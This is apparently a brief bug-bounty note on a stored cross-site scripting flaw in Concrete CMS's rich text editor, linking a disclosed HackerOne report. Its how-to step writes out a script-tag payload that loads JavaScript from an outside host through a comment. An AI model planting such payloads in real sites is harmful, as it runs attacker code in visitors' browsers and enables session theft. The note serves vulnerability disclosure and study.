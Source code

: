 # Rich Text

### \[Oct5,2021] ConceretCMS

{% embed url="https://hackerone.com/reports/616770" %}

### How-to:

Post a comment in the rich text editor:

`<script src="http://bl4de.tech/poc.js"></script>`\
